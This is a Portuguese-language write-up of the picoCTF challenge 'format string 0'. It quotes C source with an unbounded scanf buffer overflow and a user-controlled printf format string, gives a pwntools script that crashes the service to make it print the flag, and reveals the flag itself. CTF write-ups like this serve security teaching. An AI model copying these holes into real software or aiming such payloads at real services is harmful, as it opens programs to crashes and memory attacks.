 # WriteUp: format string 0
## Descrição do Desafio:
**Author**: Cheng Zhang \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/433?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Fácil \
**Data**: 2024 \
**Descrição**:
> Can you use your knowledge of format strings to make the customers happy?
## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Este desafio nos fornece o seu código fonte, `.c`. Analisando ele, vemos que ele contém diversas funções, mas elas estão todas ali para te distrair, porque logo na `main()` podemos notar que é setado uma função para caso ocorra segmentation fault, e a função que é chamada imprime a flag para nós.
```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

...........

int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}
```
Outra coisa muito interessante, é que na função `serve_patrick()`, podemos estourar um buffer que tem ali, causando segmentation fault.
```c
void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1); //Estouro de buffer.
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}
```

### 2. Solução
A solução é simples, basta estourar o buffer na função `serve_patrick()`.
### 2.1 Solução com Python
```py
from pwn import *

p = remote(ip, porta) #Troque pelos valores

payload = "A" * 100

p.sendlineafter(b"recommendation: ", payload)
print(p.recvall().decode())
```
### Flag
`picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`
## Autor
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)

